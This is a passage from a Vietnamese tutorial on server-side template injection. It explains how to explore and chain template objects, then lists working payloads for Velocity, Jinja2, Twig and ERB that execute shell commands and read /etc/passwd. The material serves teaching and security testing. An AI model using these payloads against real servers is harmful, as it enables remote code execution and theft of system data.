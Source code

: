 Như đã mô tả ở trên, bước đầu tiên là xác định các object và method mà chúng ta có quyền truy cập. Một số object có thể ngay lập tức trở nên thú vị. Bằng cách kết hợp kiến thức của riêng chúng ta và thông tin được cung cấp trong tài liệu, chúng ta sẽ có thể tập hợp một danh sách ngắn các đối tượng mà chúng ta muốn điều tra kỹ lưỡng hơn.

Khi nghiên cứu tài liệu về các object, hãy đặc biệt chú ý đến những method mà các object này cấp quyền truy cập cũng như những object mà chúng trả về. Bằng cách đi sâu vào tài liệu, chúng ta có thể khám phá sự kết hợp của các object và method mà chúng ta có thể xâu chuỗi lại với nhau. Việc kết hợp các object và method phù hợp đôi khi cho phép chúng ta có quyền truy cập vào chức năng nguy hiểm và dữ liệu nhạy cảm mà ban đầu có vẻ ngoài tầm với.

Ví dụ, trong template engine Velocity dựa trên Java, chúng ta phải truy cập vào một object `ClassTool` được gọi là `$class`. Việc nghiên cứu tài liệu sẽ giúp chúng ta hiểu rằng có thể nối method `$class.inspect()` và property `$class.type` để có thể tham chiếu đến object tuỳ ý. Trong quá khứ, điều này đã được khai thác để thực thi lệnh shell từ xa trên hệ thống mục tiêu:

```java
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```

##### Xây dựng một cách khai thác tuỳ chỉnh sử dụng object được cung cấp bởi lập trình viên

Theo mặc định, một số template engine chạy trong môi trường an toàn, bị khóa để giảm thiểu rủi ro liên quan nhiều nhất có thể. Mặc dù điều này gây khó khăn cho việc khai thác các template như vậy để thực thi mã từ xa, nhưng các object do nhà phát triển tạo vẫn có thể bị khai thác.

Tuy nhiên, trong khi tài liệu quan trọng thường được cung cấp cho các template có sẵn, các object dành riêng cho trang web gần như không được ghi lại. Do đó, việc tìm ra cách khai thác chúng sẽ yêu cầu chúng ta điều tra hành vi của trang web theo cách thủ công để xác định vùng tấn công và xây dựng cách khai thác tùy chỉnh của riêng mình sao cho phù hợp.

#### Payload khai thác trong một số template engine

##### Jinja2

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

##### Twig

```php
{{['id']|filter('system')}}
```

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

##### ERB

```ruby
<%= system('cat /etc/passwd') %>
```
